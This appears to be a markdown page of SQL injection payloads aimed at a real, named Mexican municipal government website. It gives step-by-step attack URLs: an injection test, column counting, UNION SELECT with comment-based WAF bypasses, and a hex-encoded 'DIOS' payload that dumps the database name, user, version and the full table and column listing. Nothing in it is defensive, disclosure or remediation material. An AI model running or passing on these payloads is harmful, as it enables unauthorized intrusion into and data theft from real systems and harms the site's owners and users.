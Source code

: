 ### Dork

- `https[:]//www[.]puertomorelos[.]gob[.]mx/detys[.]php?id=11`

### Injection Vulnerability

- `https://www.puertomorelos.gob.mx/detys.php?id=11--+-`

### Count - WAF Bypass - `order by`

- `https://www.puertomorelos.gob.mx/detys.php?id=11 /*!50000ORDER*//**//*!50000BY*/ 14 --+-`

### Vulnerable Column - WAF bypass - `union select`

https://www.puertomorelos.gob.mx/detys.php?id=-11/*!50000%55nIoN*/ /*!50000%53eLeCt*/1,2,3,4,5,6,7,8,9,10,11,12,13,14 --+-

### Simple Concat Info - WAF Bypass

https://www.puertomorelos.gob.mx/detys.php?id=-11/*!50000%55nIoN*/ /*!50000%53eLeCt*/1,2,3,/*!50000cOnCat*/(database(),user(),version()),5,6,7,8,9,10,11,12,13,14 --+-

### HTML Injection Concat Info PoC - WAF Bypass

https://www.puertomorelos.gob.mx/detys.php?id=-11/*!50000%55nIoN*/ /*!50000%53eLeCt*/1,2,3,/*!50000cOnCat*/(0x596f20736f79206c61206e6f636865,0x3c62723e,0x3c62723e,database(),0x3c62723e,user(),0x3c62723e,version()),5,6,7,8,9,10,11,12,13,14 --+-

### Fz3r0 DIOS - WAF Bypass

https://www.puertomorelos.gob.mx/detys.php?id=-11/*!50000%55nIoN*/ /*!50000%53eLeCt*/1,2,3,/*!00000concat*/(0x3c666f6e7420666163653d224963656c616e6422207374796c653d22636f6c6f723a7265643b746578742d736861646f773a307078203170782035707820233030303b666f6e742d73697a653a33307078223e496e6a6563746564206279204468346e692056757070616c61203c2f666f6e743e3c62723e3c666f6e7420636f6c6f723d70696e6b2073697a653d353e44622056657273696f6e203a20,version(),0x3c62723e44622055736572203a20,user(),0x3c62723e3c62723e3c2f666f6e743e3c7461626c6520626f726465723d2231223e3c74686561643e3c74723e3c74683e44617461626173653c2f74683e3c74683e5461626c653c2f74683e3c74683e436f6c756d6e3c2f74683e3c2f74686561643e3c2f74723e3c74626f64793e,(select%20(@x)%20/*!00000from*/%20(select%20(@x:=0x00),(select%20(0)%20/*!00000from*/%20(information_schema/**/.columns)%20where%20(table_schema!=0x696e666f726d6174696f6e5f736368656d61)%20and%20(0x00)%20in%20(@x:=/*!00000concat*/(@x,0x3c74723e3c74643e3c666f6e7420636f6c6f723d7265642073697a653d333e266e6273703b266e6273703b266e6273703b,table_schema,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d677265656e2073697a653d333e266e6273703b266e6273703b266e6273703b,table_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d626c75652073697a653d333e,column_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c2f74723e))))x)),5,6,7,8,9,10,11,12,13,14 --+-

### 
